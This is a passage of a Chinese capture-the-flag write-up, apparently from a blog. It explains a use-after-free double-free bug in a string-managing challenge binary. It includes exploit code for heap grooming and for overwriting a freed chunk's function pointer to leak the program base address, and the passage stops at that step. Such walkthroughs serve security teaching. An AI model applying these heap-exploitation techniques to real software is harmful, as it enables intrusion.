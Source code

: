 释放代码
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">delete</span><span class="hljs-params">(idx)</span>:</span>
    p.recvuntil(<span class="hljs-string">"quit"</span>)
    p.send(<span class="hljs-string">"delete "</span>)
    p.recvuntil(<span class="hljs-string">'id:'</span>)
    p.send(str(idx)+<span class="hljs-string">'\n'</span>)
    p.recvuntil(<span class="hljs-string">'sure?:'</span>)
    p.send(<span class="hljs-string">'yes '</span>+<span class="hljs-string">'\n'</span>)</code></pre>
<h2 id="0x3-uaf漏洞查找">0x3 UAF漏洞查找</h2>
<blockquote>
<p>程序自己实现了一套管理字符串的体系，但是在释放的时候用指针是否为空来判断该索引代表地方是否存放有字符串，如果指针不空，表示可以释放。但是释放完后，没有将指针置空，因此导致<strong>可以二次释放，多次释放</strong>。</p>
</blockquote>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170623012118487?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p>最后在释放内存之后，在delete后并没有置空，存在double free</p>
<h2 id="0x4-利用uaf修改函数地址">0x4 利用UAF修改函数地址</h2>
<p>首先我们了解一下本题的uaf漏洞，这里利用图片的形式展示一下关系</p>
<h3 id="1fastbin特性">1.fastbin特性</h3>
<pre><code>fastbin维护的chunk分九个档次，大小从16字节到80字节，每8个字节一个档次。那我们要求的0x20（32）个字节，属于48字节的档次（因为每个chunk还要加上16字节的管理区），所以我们申请0x20空间后释放的chunk被归到fastbin[5]这个链表中了。
</code></pre>
<h3 id="2内存分布">2.内存分布</h3>
<p><img alt="这里写图片描述" src="http://p6.qhimg.com/t01de9a0cdd0857a62e.png" title=""/></p>
<p>利用gbd动态调试查看结构体内存 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170623102226965?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
最后一个就是freeshort函数指针</br></img></br></p>
<blockquote>
<p>总思路：首先是利用uaf，利用堆块之间申请与释放的步骤，形成对free_func指针的覆盖。从而达到劫持程序流的目的。具体来说，先申请的是三个字符创小于0xf的堆块，并将其释放。此时fastbin中空堆块的单链表结构如下左图，紧接着再申请一个字符串长度为0x20的字符串，此时，申请出来的堆中的数据会如下右图，此时后面申请出来的堆块与之前申请出来的1号堆块为同一内存空间，这时候输入的数据就能覆盖到1号堆块中的free_func指针，指向我们需要执行的函数，随后再调用1号堆块的free_func函数，即实现了劫持函数流的目的。</p>
</blockquote>
<p><img alt="这里写图片描述" src="http://p9.qhimg.com/t015295ad0ff28884c4.png" title=""/></p>
<h2 id="0x5-泄露基址">0x5 泄露基址</h2>
<p>我们要知道堆的释放是一个先入后出的队列，也就是说你第最后一个释放，那么就地一个用，就本体而言首先申请三个堆块 ，其实两个就可以</p>
<pre class="prettyprint"><code class=" hljs sql">    <span class="hljs-operator"><span class="hljs-keyword">create</span>(<span class="hljs-number">4</span>,<span class="hljs-string">'aa'</span>)
    <span class="hljs-keyword">create</span>(<span class="hljs-number">4</span>,<span class="hljs-string">'bb'</span>)
    <span class="hljs-keyword">delete</span>(<span class="hljs-number">1</span>)
    <span class="hljs-keyword">delete</span>(<span class="hljs-number">0</span>)</span></code></pre>
<p>通过调用puts函数打印该函数的地址（一开始我不怎么理解），为什么是覆盖成2d为什么不是1a等其他puts函数的地址，自己调试一下就知道了。</p>
<pre class="prettyprint"><code class=" hljs haskell">    <span class="hljs-typedef"><span class="hljs-keyword">data</span>='a'*0x10+'b'*0x8+'\x2d'#第一次覆盖，泄露出函数地址。</span>
    create(<span class="hljs-number">0x20</span>,<span class="hljs-typedef"><span class="hljs-keyword">data</span>)#在这里连续创建两个堆块，从而使输入的<span class="hljs-keyword">data</span>与前面的块1公用一块内存。个堆块，从而使输入的<span class="hljs-keyword">data</span>与前面的块1公用一块内存。</span>
    delete(<span class="hljs-number">1</span>)#这里劫持函数程序流function puts running
    p.recvuntil('b'*<span class="hljs-number">0x8</span>)
    <span class="hljs-typedef"><span class="hljs-keyword">data</span>=p.recvuntil<span class="hljs-container">('1.')</span>[:-2]</span>
    print <span class="hljs-typedef"><span class="hljs-keyword">data</span></span>
    <span class="hljs-keyword">if</span> len(<span class="hljs-typedef"><span class="hljs-keyword">data</span>)&gt;8:</span>
        <span class="hljs-typedef"><span class="hljs-keyword">data</span>=<span class="hljs-keyword">data</span>[:8]</span>
    <span class="hljs-typedef"><span class="hljs-keyword">data</span>=u64<span class="hljs-container">(<span class="hljs-title">data</span>.<span class="hljs-title">ljust</span>(8,'\<span class="hljs-title">x00'</span>)</span>)-0xA000000000000 #这里减掉的数可能不需要，自行调整</span>
    print hex(<span class="hljs-typedef"><span class="hljs-keyword">data</span>)</span>
    proc_base=<span class="hljs-typedef"><span class="hljs-keyword">data</span>-0xd2d</span>